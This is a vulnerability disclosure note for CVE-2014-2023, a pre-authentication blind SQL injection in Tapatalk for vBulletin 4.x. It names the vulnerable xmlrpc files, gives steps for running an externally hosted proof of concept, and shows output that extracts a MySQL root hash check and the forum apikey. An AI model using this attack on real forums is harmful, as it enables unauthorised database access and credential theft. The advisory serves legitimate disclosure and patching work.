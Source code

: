 *Preliminary VulnNote*

CVE-2014-2023 - Tapatalk for vbulletin 4.x - multiple blind sql injection (pre-auth)
====================================================================================

Overview
--------

	date    :  10/12/2014   
	cvss    :  7.8 (AV:N/AC:L/Au:N/C:C/I:N/A:N) base  
	cwe     :  89   
	
	vendor  :  Tapatalk Inc  
	product :  Tapatalk for vBulletin 4.x   
	versions affected:	<= 5.2.1 - latest (to date)
						5.2.1	(verified)
						4.9.0 	(verified)
						
	exploitability :
				* remotely exploitable
				* NO authentication required
				* NO user interaction required
				* NO special configuration required (default settings)
				
Abstract
---------
 
	Tapatalk for vBulletin 4.x does not properly sanitize some xmlrpc calls for
	unsubscribe_topic, unsubscribe_forum allowing unauthenticated users to
	inject arbitrary SQL commands.
	
	googledork: see PoC code


Details
--------
	
	vulnerable component: 
		./mobiquo/functions/unsubscribe_forum.php
		./mobiquo/functions/unsubscribe_topic.php
	xmlrpc request is decoded, decoded attacker provided values are directly
	being used in sql query.

Proof of Concept (PoC)
----------------------

	see https://github.com/tintinweb/pub/tree/master/pocs/cve-2014-2023
	
	
	1) prerequisites
	     vBulletin 4.x with Tapatalk for vBulletin 4.x installed
	2) run PoC
		 edit PoC to match your TARGET (, optionally DEBUG=True)
		 (optionally) edit your query to extract specific database values
		 Note: PoC will try to detect tapatalk on that host
		 run PoC
		
	by default extracts
	* mysql root hash (in case vBulletin db user has permissions to do so)
	* vbulletin db record fields (apikey) - perfectly chains with CVE-2014-2023
	
	only limited by the vBulletin db_user access permissions
	

	run:
	[ i] Taptalk detected ...  'http://TARGET/mobiquo/mobiquo.php' ...  v.5.2.1  :) - OK
	[   ] TAPATALK for vBulletin 4.x - SQLi
	[--] Target: http://TARGET/forum.php
	[ +] Attack - sqli
	[ *] guess mysql user/pass
	[    ] trying to guess length ...
	. 
	[  *] LENGTH = 0
	[    ] trying to guess value  ...
	[  *] SUCCESS!: query: select -1 from mysql.user where user='root' and password =''
	
	[ *] guess apikey
	[    ] trying to guess length ...
	. . . . . . . . . 
	[  *] LENGTH = 8
	[    ] trying to guess value  ...
	. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . 
	[  +] HIT! - [4]..
	. . . . . . 
	[  +] HIT! - 4[F]..
	. 
	[  +] HIT! - 4F[A]..
	. . . . . . . . . . . . . . . . . . . . . . 
	[  +] HIT! - 4FA[V]..
	. . . 
	[  +] HIT! - 4FAV[c]..
	. . . . . . . . . . . . . . . . . . 
	[  +] HIT! - 4FAVc[R]..
	. . . . 
	[  +] HIT! - 4FAVcR[D]..
	. . . 
	[  +] HIT! - 4FAVcRD[c]..
	[  *] SUCCESS!: query: select -1 from setting where varname='apikey' and value ='4FAVcRDc'
	4FAVcRDc
	-- done --
		
	
	
Timeline
--------

	2014-01-14: initial vendor contact, no response
	2014-02-24: vendor contact, no response
	2014-10-13: public disclosure
	2014-10-14: vendor response - acknowledged, fix in progress
	2014-10-17: waiting for fix to become publicly available
	2014-10-24: poc release

	
Contact
--------
	tintinweb - https://github.com/tintinweb/pub/tree/master/pocs/cve-2014-2023
	
	
(0x721427D8)
	
	